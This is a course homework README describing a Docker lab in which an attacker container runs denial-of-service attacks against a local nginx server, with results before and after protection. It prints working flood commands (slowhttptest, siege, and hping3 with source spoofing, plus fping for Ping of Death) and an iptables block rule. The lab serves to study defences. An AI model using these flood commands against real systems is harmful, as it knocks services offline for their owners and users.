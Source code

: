 # Homework #16 for Highload:Projector

### Fuck the Hack :)

Setup two docker containers:
- attacker container - there you need to write scripts that will implement 6 attacks (UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death)
- Defender container - ubuntu & nginx with simple website

Try to implement protection on Defender container

Launch attacker scripts and examine you protection


## Installation

```
git clone https://github.com/god-of-north/highload-homework-16.git
cd highload-homework-16
docker-compose build
```


## Attacker Tools

Enter to the ```attacker``` container to run attacker tools 
```
docker-compose run attacker bash
```

**Tools:**
- http-flood.sh - *HTTP Flood*
- icmp-flood.sh - *ICMP Flood*
- ping-of-death.sh - *Ping of Daeth*
- set-backend.sh - *Setting target as __unprotected__ NGINX server*
- set-defender.sh - *Setting target as __protected__ NGINX server*
- slowloris.sh - *Slowloris*
- syn-flood.sh - *SYN Flood*
- udp-flood.sh - *UDP Flood*


## Testing

### Slowloris
```
slowhttptest -c 2000 -H -g -o slowhttp -i 10 -r 200 -t GET -u ${TARGET_URL} -x 24 -p 3
```

Attack on NGINX server with DDoS protection **enabled**:
```
initializing:        0
pending:             0
connected:           571
error:               0
closed:              1429
service available:   YES
```

Attack on NGINX server with DDoS protection **disabled**:
```
initializing:        0
pending:             0
connected:           1029
error:               0
closed:              971
service available:   NO
```

```
curl -XGET http://localhost:5050
curl: (52) Empty reply from server
```

### HTTP Flood
```
siege -b -c 250 -t 3m ${TARGET_URL}
```

Attack on NGINX server with DDoS protection **enabled**:
```
{       "transactions":                         6656,
        "availability":                        80.05,
        "elapsed_time":                       179.78,
        "data_transferred":                   163.25,
        "response_time":                        0.36,
        "transaction_rate":                    37.02,
        "throughput":                           0.91,
        "concurrency":                         13.16,
        "successful_transactions":              6656,
        "failed_transactions":                  1659,
        "longest_transaction":                  2.91,
        "shortest_transaction":                 0.00
}
```

Attack on NGINX server with DDoS protection **disabled**:
```
{       "transactions":                       101967,
        "availability":                        99.59,
        "elapsed_time":                       179.61,
        "data_transferred":                  2914.89,
        "response_time":                        0.29,
        "transaction_rate":                   567.71,
        "throughput":                          16.23,
        "concurrency":                        161.81,
        "successful_transactions":            101988,
        "failed_transactions":                   420,
        "longest_transaction":                 16.18,
        "shortest_transaction":                 0.00
}
```

**Comparision**

Network Usage

![Network Usage](./images/f07ccd966a12e9acfbbbd88eea3e2c56fce9810f4036e88a0dd3714f32d0ab8c.png)  

Network Packets

![Network Packets](./images/9bf49e69f73d831c1c0ddc93b4972867a42235dfe4d1d1bc4956c2daf63fbec7.png)  

Load

![Load](./images/f264978022624d9a3c74a868ba30f615dce74e940fdfc2379c09b549d48226d0.png)  

CPU

![CPU](./images/a39d5bf775598e9aefa2a589afb226c1de348bbb9e261b4431f28aee219dc1b9.png)  

Disk I/O

![Disk I/O](./images/a12e454a11a4b05c5eb1026fa55ab0e9463b58a905d828b660971928ec6fbe11.png)  

Nginx Connections

![Nginx Connections](./images/391565fd7386c8cd0f2c935a0470ebd39f230a74736d70fb7546dc90f5c4b448.png)  



### ICMP Flood
```
hping3 --flood --rand-source -1 -p ${TARGET_PORT} ${TARGET_IP}
```

Block ICMP messaging using ```iptables -A INPUT --proto icmp -j DROP```

Blocking starts at **16:19**

Network Usage

![Network Usage](./images/e00c11634d1d3263b6000a20e3f8ae9793d3ae1093348576ddc7a2480f11b144.png)  

Network Packets

![Network Packets](images/ea056ff78ce2ba269b9557a0507c660181602aa2eb39d835b8be22792b0eea7a.png)  



### Ping of Daeth
```
fping -b 65500 ${TARGET_IP}
```

### SYN Flood
```
hping3 -c 20000 -d 120 -S -w 64 -p ${TARGET_PORT} --flood --rand-source ${TARGET_IP}
```

### UDP Flood
```
hping3 --flood --rand-source --udp -p ${TARGET_PORT} ${TARGET_IP}
```
